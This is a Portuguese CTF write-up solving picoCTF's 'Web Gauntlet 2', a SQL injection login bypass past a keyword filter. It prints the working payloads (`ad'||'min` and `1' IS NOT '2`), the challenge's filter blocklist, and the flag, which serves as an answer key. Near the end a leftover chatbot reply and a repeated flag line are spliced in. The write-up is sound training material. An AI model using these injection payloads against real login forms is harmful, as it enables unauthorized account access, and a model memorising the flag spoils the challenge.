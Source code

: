 # Gauntlet 2
###### Resolvido por @Menegaldo e @BrunoCuba 
> Este é um CTF sobre [Tipo de Vulnerabilidade 1, Tipo de Vulnerabilidade 2 e Tipo de Vulnerabilidade 3]  

## Sobre o Desafio  
This website looks familiar...  

**Objetivo:** Log in as admin Site:  

## 🔗 Links do Desafio  
- [Acesse o site](http://mercury.picoctf.net:21336/)  
- [Página de filtragem](http://mercury.picoctf.net:21336/filter.php)  

Boa sorte! 🔥  

## Solução  

Ao acessar o site com a segunda questão, percebi que ela seria quase igual ao web Gauntlet 1, por ter o mesmo esquema de uma página de Login e Senha.

![image](https://github.com/user-attachments/assets/286fe1ca-4336-46bd-80ef-d882e5392d3d)

Depois, acessei o `filter.php`, que no primeiro exercício mostrava quais eram os filtros para não usar no comando da Query. No caso deste exercício, os filtros são:

![image](https://github.com/user-attachments/assets/d59a122f-447c-4c72-a41b-3b0f023db98f)

Minhas primeiras tentativas incluíram buscar no ChatGPT por algumas alternativas, e ele me deu o seguinte comando:

```sql
LOGIN: admin' AND 1=1 AND (SELECT name FROM sqlite_master WHERE type='table') --  
SENHA: qualquer coisa
```

Porém, essa tentativa não foi favorável, pois o site tem um filtro de tamanho de caracteres também:

![image](https://github.com/user-attachments/assets/ae16e14f-c01e-477c-9b32-bec59c104f81)

Depois disso, pedi ao GPT para me passar todos os comandos do SQLite:

```sql
SELECT
FROM
WHERE
AND
OR
NOT
INSERT INTO
UPDATE
DELETE
CREATE TABLE
DROP TABLE
ALTER TABLE
JOIN
UNION
GROUP BY
HAVING
ORDER BY
LIMIT
DISTINCT
LIKE
IN
BETWEEN
IS NULL
IS NOT NULL
EXISTS
CASE
=
<
<=
<>
!=
IS TRUE
IS FALSE
IS NOT TRUE
IS NOT FALSE
IS
char()
hex()
substr()
length()
count()
sum()
avg()
min()
max()
lower()
upper()
random()
```

Com todas essas opções, comecei a tentar diferentes comandos de forma que o valor fosse positivo e nenhum filtro fosse barrado, mas nenhuma ideia funcionou. Pedi ajuda ao GPT novamente, e ele sugeriu tentar comparar dois números diferentes com o `IS NOT` para que o valor fosse `TRUE`, permitindo que a lógica no SQLite me desse acesso ao site.

Minha primeira tentativa foi:

```sql
LOGIN: 'qualquer coisa'
SENHA: 1' IS NOT '2
```

![image](https://github.com/user-attachments/assets/3e517e79-1815-433c-b75d-a382d167db5b)

![image](https://github.com/user-attachments/assets/fdbf8787-3af3-4c71-ac97-5ee47694a88e)

Eu percebi que não adiantaria tentar entrar com outro usuário, então voltei ao Web Gauntlet 1 para ver como o login do admin funcionava e tentar burlar o filtro.

No campo de LOGIN, eu precisava usar: `ad'||'min`, e então tentei novamente no campo de SENHA: `1' IS NOT '2`.

Com isso, consegui realizar o login no site.

![image](https://github.com/user-attachments/assets/1f2b11fe-7eae-40e4-b8dd-779e79cd8a86)  

![image](https://github.com/user-attachments/assets/5d4ccf40-2239-47dc-b20e-9391161df011)

Depois, acessei o `filter.php`, que me apresentou o seguinte código:

```php
<?php
session_start();

if (!isset($_SESSION["winner2"])) {
    $_SESSION["winner2"] = 0;
}
$win = $_SESSION["winner2"];
$view = ($_SERVER["PHP_SELF"] == "/filter.php");

if ($win === 0) {
    $filter = array("or", "and", "true", "false", "union", "like", "=", ">", "<", ";", "--", "/*", "*/", "admin");
    if ($view) {
        echo "Filters: ".implode(" ", $filter)."<br/>";
    }
} else if ($win === 1) {
    if ($view) {
        highlight_file("filter.php");
    }
    $_SESSION["winner2"] = 0;        // <- Don't refresh!
} else {
    $_SESSION["winner2"] = 0;
}

// picoCTF{0n3_m0r3_t1m3_e2db86ae880862ad471aa4c93343b2bf}
?>
```

> Assim, obtemos a flag: `picoCTF{0n3_m0r3_t1m3_e2db86ae880862ad471aa4c93343b2bf}`  
```

Agora o texto está bem mais claro e organizado. Se precisar de mais ajustes, só avisar!

> Assim, obtemos a flag `picoCTF{0n3_m0r3_t1m3_e2db86ae880862ad471aa4c93343b2bf}`  
